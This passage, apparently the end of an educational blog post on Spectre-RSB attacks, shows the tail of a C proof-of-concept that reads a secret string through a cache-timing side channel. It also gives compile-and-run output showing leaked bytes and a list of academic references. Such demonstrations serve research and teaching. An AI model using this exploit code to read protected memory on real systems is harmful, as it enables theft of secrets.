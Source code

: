 ```c
    for (i = 0; i < 1000; i++) {
        hit[0] = 0x5A;
        addr = &hit[0];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 += __rdtscp(&junk) - time1;
    }
    time3 = time2 / 1000;
    printf("CACHE_HIT_THRESHOLD is calculated as %llu\n", time3);

    printf("Reading %d bytes:\n", len);
    while (--len >= 0) {
        printf("Reading at secret = %p... ", (void *)secret);
        readMemoryByte(secret++, value, score, time3);
        printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%-4d ", value[0], (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0) {
            printf("( second best: 0x%02X score=%-4d)", value[1], score[1]);
        }
        printf("\n");
    }
    return 0;
}
```

Compile the program and run it on my Mac machine:
```console
$ gcc -march=native -O0 spectre-rsb.c -o spectre-rsb
$ ./spectre-rsb
CACHE_HIT_THRESHOLD is calculated as 44
Reading 43 bytes:
Reading at secret = 0x10ce24ed8... Unclear: 0x00='?' score=915  ( second best: 0x4F score=898 )
Reading at secret = 0x10ce24ed9... Unclear: 0x6E='n' score=919  ( second best: 0x00 score=895 )
Reading at secret = 0x10ce24eda... Unclear: 0x20=' ' score=971  ( second best: 0x00 score=968 )
Reading at secret = 0x10ce24edb... Unclear: 0x74='t' score=991  ( second best: 0x00 score=970 )
Reading at secret = 0x10ce24edc... Unclear: 0x68='h' score=993  ( second best: 0x00 score=969 )
Reading at secret = 0x10ce24edd... Unclear: 0x65='e' score=959  ( second best: 0x00 score=952 )
Reading at secret = 0x10ce24ede... Unclear: 0x20=' ' score=973  ( second best: 0x00 score=973 )
Reading at secret = 0x10ce24edf... Unclear: 0x62='b' score=975  ( second best: 0x00 score=967 )
Reading at secret = 0x10ce24ee0... Unclear: 0x6F='o' score=975  ( second best: 0x00 score=974 )
Reading at secret = 0x10ce24ee1... Unclear: 0x6E='n' score=961  ( second best: 0x00 score=956 )
Reading at secret = 0x10ce24ee2... Unclear: 0x6E='n' score=922  ( second best: 0x00 score=871 )
Reading at secret = 0x10ce24ee3... Unclear: 0x69='i' score=995  ( second best: 0x00 score=976 )
Reading at secret = 0x10ce24ee4... Unclear: 0x00='?' score=957  ( second best: 0x65 score=940 )
Reading at secret = 0x10ce24ee5... Unclear: 0x2C=',' score=959  ( second best: 0x00 score=958 )
Reading at secret = 0x10ce24ee6... Unclear: 0x20=' ' score=957  ( second best: 0x00 score=957 )
Reading at secret = 0x10ce24ee7... Unclear: 0x62='b' score=955  ( second best: 0x00 score=934 )
Reading at secret = 0x10ce24ee8... Unclear: 0x6F='o' score=949  ( second best: 0x00 score=945 )
Reading at secret = 0x10ce24ee9... Unclear: 0x6E='n' score=937  ( second best: 0x00 score=924 )
Reading at secret = 0x10ce24eea... Unclear: 0x6E='n' score=938  ( second best: 0x00 score=921 )
Reading at secret = 0x10ce24eeb... Unclear: 0x69='i' score=980  ( second best: 0x00 score=933 )
Reading at secret = 0x10ce24eec... Unclear: 0x00='?' score=934  ( second best: 0x65 score=928 )
Reading at secret = 0x10ce24eed... Unclear: 0x00='?' score=940  ( second best: 0x20 score=930 )
Reading at secret = 0x10ce24eee... Unclear: 0x62='b' score=925  ( second best: 0x00 score=903 )
Reading at secret = 0x10ce24eef... Unclear: 0x61='a' score=927  ( second best: 0x00 score=912 )
Reading at secret = 0x10ce24ef0... Unclear: 0x6E='n' score=921  ( second best: 0x00 score=910 )
Reading at secret = 0x10ce24ef1... Unclear: 0x6B='k' score=834  ( second best: 0x00 score=566 )
Reading at secret = 0x10ce24ef2... Unclear: 0x73='s' score=928  ( second best: 0x00 score=615 )
Reading at secret = 0x10ce24ef3... Unclear: 0x00='?' score=901  ( second best: 0x20 score=898 )
Reading at secret = 0x10ce24ef4... Unclear: 0x6F='o' score=747  ( second best: 0x00 score=674 )
Reading at secret = 0x10ce24ef5... Success: 0x00='?' score=1    
Reading at secret = 0x10ce24ef6... Unclear: 0x20=' ' score=916  ( second best: 0x00 score=901 )
Reading at secret = 0x10ce24ef7... Unclear: 0x4C='L' score=958  ( second best: 0x00 score=934 )
```

[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.